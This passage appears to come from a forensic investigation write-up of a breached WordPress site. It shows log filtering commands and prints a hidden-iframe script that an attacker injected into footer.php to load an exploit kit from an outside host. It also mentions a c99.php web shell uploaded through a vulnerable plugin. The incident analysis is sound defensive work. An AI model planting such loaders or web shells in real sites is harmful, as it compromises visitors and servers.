 in the end, there is one returned different content length which indicates success.

![Error](/assets/images/forensic-investigation/Breach_Investigation/success.png)

and also obvious that the user logged in has the privilege to view the admin page.

I extracted the URIs only to filter the noise using the command 

```
cat access.log | awk '{print $7}' | grep -v "login" > uri.txt
```

then looked carefully at them to know what else the attacker accessed, and I found this one.

![Error](/assets/images/forensic-investigation/Breach_Investigation/edit.png)

where the attacker used a theme editor to edit the content of the footer, so let's investigate the footer.php code.

```
<script>
if (document.getElementsByTagName('body')[0]){ iframer();
} else {
  document.write("<iframe src='http://blog.mysportclub.ex/wp-content/uploads/hk/task/opspy/index.php' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");
 }

function iframer(){
  var f = document.createElement('iframe'); f.setAttribute('src', 'http://blog.mysportclub.ex/wp-content/uploads/hk/task/opspy/index.php');      
  f.style.visibility = 'hidden';
  f.style.position = 'absolute';
  f.style.left = '0';
  f.style.top = '0';
  f.setAttribute('width', '10');
  f.setAttribute('height', '10'); document.getElementsByTagName('body')[0].appendChild(f);
}
</script>
```

We can find this Iframe embedded at the end of the footer, which is responsible for redirecting us to the site "blog.mysportclub.ex" which hosts the exploit kit.

Investigating more in the machine I found nothing suspicious outside the context of the website content and the auth logs have no signs of any suspicious logins which indicates that the attacker hasn't gained more privileges in the server.

## mysportclub server

This web server is also a WordPress over Apache, By looking at "access.log" I spotted some interesting stuff happening, After a scan using "WPScan" there is a post request using "curl" to an endpoint in the "work-the-flow-file-upload" plugin then there is access to the famous "c99.php" web shell which may be uploaded using a vulnerability in "work-the-flow-file-upload" plugin. 

![Error](/assets/images/forensic-investigation/Breach_Investigation/vuln.png)

